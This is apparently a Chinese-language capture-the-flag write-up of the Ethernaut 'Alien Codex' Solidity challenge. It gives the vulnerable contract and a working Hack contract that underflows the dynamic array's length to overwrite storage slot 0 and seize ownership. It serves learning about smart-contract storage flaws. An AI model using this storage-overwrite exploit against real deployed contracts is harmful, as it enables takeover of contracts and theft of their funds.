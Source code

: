 # Alien Codex
## 題目
<img width="514" alt="截圖 2024-09-20 下午10 40 21" src="https://github.com/user-attachments/assets/fa48da0b-6aa1-4961-8238-8289086f941c">


## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

### 合約細節：
- **`contact` (bool)**：這個變量控制你能不能操作某些函數。
- **`codex` (bytes32[])**：一個 `bytes32` 型態的動態數組。
- **重要函數**：
  - **`makeContact()`**：這個函數會把 `contact` 變為 `true`，允許你使用其他受限函數。
  - **`record()`**：這個可以往 `codex` 裡新增一個 `bytes32` 值。
  - **`retract()`**：用來減少 `codex` 數組的長度。
  - **`revise()`**：允許你修改 `codex` 裡面某個特定的元素，但前提是 `contact` 必須為 `true`。



## hack
```solidity
pragma solidity ^0.8.0;

interface IAlienCodex {
    function owner() external view returns (address);
    function codex(uint256) external view returns (bytes32);
    function retract() external;
    function makeContact() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract Hack {
    /*
    storage
    slot 0 - owner (20 bytes), contact (1 byte)
    slot 1 - length of the array codex

    // slot where array element is stored = keccak256(slot)) + index
    // h = keccak256(1)
    slot h + 0 - codex[0] 
    slot h + 1 - codex[1] 
    slot h + 2 - codex[2] 
    slot h + 3 - codex[3] 

    Find i such that
    slot h + i = slot 0
    h + i = 0 so i = 0 - h
    */
    constructor(IAlienCodex target) {
        target.makeContact();
        target.retract();

        uint256 h = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i;
        unchecked {
            // h + i = 0 = 2**256
            i -= h;
        }

        target.revise(i, bytes32(uint256(uint160(msg.sender))));
        require(target.owner() == msg.sender, "hack failed");
    }
}
```

1. 使用 `makeContact()` 函數打開 `contact` 開關，這樣就能訪問其他函數。
2. 使用 `retract()` 函數把 `codex` 的長度縮到 0，讓我們可以越界操作數組。
3. 計算出 `owner` 的存儲槽位，然後用 `revise()` 函數去覆蓋它。

數組的第一個元素 `codex[0]` 的存儲位置是這樣算的：
```
keccak256(1)
```
`codex[0]` 的存儲槽位就是 `keccak256(1)` 算出來的結果。

但我們想要的是槽位 `0`，也就是 `owner` 變數的位子，因此我們需要找到一個索引 `i`，讓：
```
keccak256(1) + i = 0
```
解出來的結果是：
```
i = 0 - keccak256(1)
```
## ans
1. 呼叫 `makeContact()` 打開訪問權限。
2. 呼叫 `retract()` 把數組長度減少，讓我們可以訪問到任何索引。
3. 計算出可以覆蓋 `owner` 的索引值 `i`。
4. 用 `revise(i, new_owner)` 把 `owner` 改成我們的地址。
